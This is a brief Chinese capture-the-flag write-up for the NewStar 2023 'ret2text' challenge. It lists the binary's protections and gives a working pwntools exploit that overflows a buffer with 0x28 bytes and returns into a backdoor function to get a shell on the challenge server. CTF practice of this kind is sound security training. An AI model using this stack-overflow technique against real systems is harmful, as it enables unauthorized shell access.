 ```yaml
---
title: newstar2023 week1 - ret2text
date: 2023/9/25 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用ret2text漏洞调用backdoor函数打开shell。
---
```


## 文件分析

下载`ret2text`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

`backdoor`函数直接打开sh了，打就完了

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 29533)
sh.sendline(b'0'*0x28 + p64(0x004011fb)) # addr of backdoor
sh.interactive()
```

Done.
